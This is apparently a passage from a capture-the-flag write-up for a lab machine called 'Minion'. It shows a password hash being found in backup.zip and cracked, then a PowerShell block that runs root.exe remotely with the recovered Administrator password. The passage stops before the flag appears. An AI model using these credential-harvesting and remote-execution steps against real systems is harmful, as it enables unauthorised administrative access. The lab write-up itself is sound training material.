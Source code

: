 ![](images/Emulating%20Threat%20Methodologies%202/image066.png)<br><br>

Additional enumeration reveals `backup.zip` on the `decoder.MINION` user's
Desktop.  A password hash can be found within this file:

![](images/Emulating%20Threat%20Methodologies%202/image067.png)<br><br>

This can be cracked using crackstation.net or other similar tool/site:

![](images/Emulating%20Threat%20Methodologies%202/image068.png)<br><br>

### Minion Local Exploit

With the password to the Administrator account, we can access the `root.txt`
file which tells us to run `root.exe`.  

Here are the commands to run the program under the `Administrator` account:

```powershell
$user="minion\administrator"
$pass="1234test" | ConvertTo-SecureString -AsPlainText -Force
$c = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$pass
Invoke-Command -ComputerName minion -Credential $c -Command {cd C:\Users\Administrator\Desktop; .\root.exe}
```

<br>

If you don't run it from the `C:\Users\Administrator\Desktop`
directory, you get an error message:

![](images/Emulating%20Threat%20Methodologies%202/image069.png)<br><br>

Running it from the correct directory returns the contents of the root flag:
